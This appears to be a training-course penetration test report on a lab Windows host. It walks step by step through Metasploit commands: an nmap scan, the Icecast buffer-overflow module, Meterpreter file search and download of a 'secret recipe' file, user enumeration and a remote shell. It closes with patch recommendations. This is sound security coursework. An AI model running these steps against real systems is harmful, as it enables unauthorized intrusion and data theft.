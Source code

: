 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

[Report](Resources/Report.docx)

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

   > **Answer:** searchsploit icecast

   ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

   > **Answer:** msfconsole

   ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

   > **Answer:** search icecast

   ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

   > **Answer:** use 0

   ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

   > **Answer:** set RHOST 192.168.0.20

   ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

   > **Answer:** exploit

   ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

   > **Answer:** search -f *secretfile*.txt

   ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

   > **Answer:** search -f *recipe*.txt

   ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

   > **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

   ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

   > **Verification:**

   ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

  > **Answer:** run post/multi/recon/local_exploit_suggester

  ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

   > **Answer:** run post/windows/gather/enum_logged_on_users

  ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

   > **Answer:** shell

   ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

   > **Answer:** systeminfo

   ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
